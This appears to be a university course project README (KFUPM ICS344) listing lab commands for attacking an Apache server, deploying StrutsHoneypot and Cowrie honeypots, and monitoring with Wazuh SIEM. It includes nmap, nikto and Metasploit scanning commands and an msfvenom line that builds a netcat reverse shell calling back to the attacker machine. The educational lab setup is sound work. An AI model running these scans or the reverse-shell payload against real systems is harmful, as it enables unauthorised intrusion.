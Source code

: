 # ICS344 Project: Commands of Phase 1,2 & 3

This project demonstrates offensive security techniques, cyber deception using honeypots, and Security Information and Event Management (SIEM) analysis. The targeted service is **HTTP**, the honeypots are **StrutsHoneypot** and **Cowrie**, and the SIEM platform used is **Wazuh**.

---

## Table of Contents
1. [Phase 1: Setup and Compromise the Service](#phase-1-setup-and-compromise-the-service)
2. [Phase 2: Honeypot Setup and Realism Evaluation](#phase-2-honeypot-setup-and-realism-evaluation)
3. [Phase 3: Visual Analysis with SIEM Dashboard](#phase-3-visual-analysis-with-siem-dashboard)

---

## Phase 1: Setup and Compromise the Service

1. **Install Apache HTTP Server**:
    ```bash
    sudo apt update && sudo apt install apache2 -y
    sudo systemctl start apache2
    sudo systemctl enable apache2
    ```
2. **Verify Apache Installation**:
    ```bash
    curl http://192.168.56.105
    ```

---

### Attacker Environment (My Machine: `192.168.56.103`)

#### Install and Configure Caldera
1. Install dependencies:
    ```bash
    sudo apt install git -y
    curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
    sudo apt install -y nodejs python3 python3-pip
    wget https://go.dev/dl/go1.19.13.linux-amd64.tar.gz
    sudo tar -C /usr/local -xzf go1.19.13.linux-amd64.tar.gz
    echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.profile
    source ~/.profile
    ```
2. Clone Caldera:
    ```bash
    git clone https://github.com/mitre/caldera.git --recursive
    cd caldera
    python3 -m venv venv
    source venv/bin/activate
    pip install -r requirements.txt
    python3 server.py --insecure --build
    ```
3. Access Caldera: [http://192.168.56.103:8888](http://192.168.56.103:8888).

#### Use Kali Linux Tools
1. **Nmap (Service Scanning)**:
    ```bash
    nmap -sV -p 80 192.168.56.105
    nmap --script vuln -p80 192.168.56.105
    ```
2. **Nikto (HTTP Vulnerability Scanning)**:
    ```bash
    nikto -h http://192.168.56.105
    ```
3. **Metasploit Framework**:
    ```bash
    msfconsole
    use auxiliary/scanner/http/http_version
    set RHOSTS 192.168.56.105
    run
    ```

---

## Phase 2: Honeypot Setup and Realism Evaluation

### Deploy Honeypots

#### StrutsHoneypot
1. Clone the repository:
    ```bash
    git clone https://github.com/strutshoneypot/strutshoneypot.git
    cd strutshoneypot
    docker-compose up
    ```

#### Cowrie Honeypot
1. Clone the repository:
    ```bash
    git clone https://github.com/cowrie/cowrie.git
    cd cowrie
    virtualenv cowrie-env
    source cowrie-env/bin/activate
    pip install -r requirements.txt
    ```
2. Start Cowrie:
    ```bash
    ./bin/cowrie start
    ```

---

### Replicate Attacks
1. Repeat all tools and scripts used in Phase 1 on both honeypots.
2. Use **msfvenom** to create a reverse shell:
    ```bash
    msfvenom -p cmd/unix/reverse_netcat lhost=192.168.56.103 lport=4444 -f raw > shell.sh
    chmod +x shell.sh
    ./shell.sh
    ```

---

## Phase 3: Visual Analysis with SIEM Dashboard

### Install Wazuh SIEM

#### Install Wazuh Manager (My Machine: `192.168.56.103`)
1. Add Wazuh repository and install:
    ```bash
    curl -s https://packages.wazuh.com/key/GPG-KEY-WAZUH | apt-key add -
    echo "deb https://packages.wazuh.com/4.x/apt/ stable main" | tee /etc/apt/sources.list.d/wazuh.list
    apt update && apt install wazuh-manager -y
    ```
2. Start Wazuh Manager:
    ```bash
    systemctl start wazuh-manager
    ```

#### Install Wazuh Agent (Victim & Honeypots: `192.168.56.105`, etc.)
1. Add the repository:
    ```bash
    curl -s https://packages.wazuh.com/key/GPG-KEY-WAZUH | apt-key add -
    echo "deb https://packages.wazuh.com/4.x/apt/ stable main" | tee /etc/apt/sources.list.d/wazuh.list
    apt update && apt install wazuh-agent -y
    ```
2. Configure the agent:
    Edit `/var/ossec/etc/ossec.conf` and set:
    ```xml
    <server>
      <address>192.168.56.103</address>
    </server>
    ```
3. Restart the agent:
    ```bash
    systemctl restart wazuh-agent
    ```

---

### Visualize Logs and Insights
1. Access Wazuh dashboard: [http://192.168.56.103:5601](http://192.168.56.103:5601).
2. Analyze logs for attack patterns, brute-force attempts, and visualizations.


---

## Authors
**Abdulaziz Alghamdi**, **Abdulrahman Alghamdi**, **Ibrahim Almojel**

King Fahd University of Petroleum & Minerals (KFUPM)  
ICS344: Information Security Project, Semester 241  
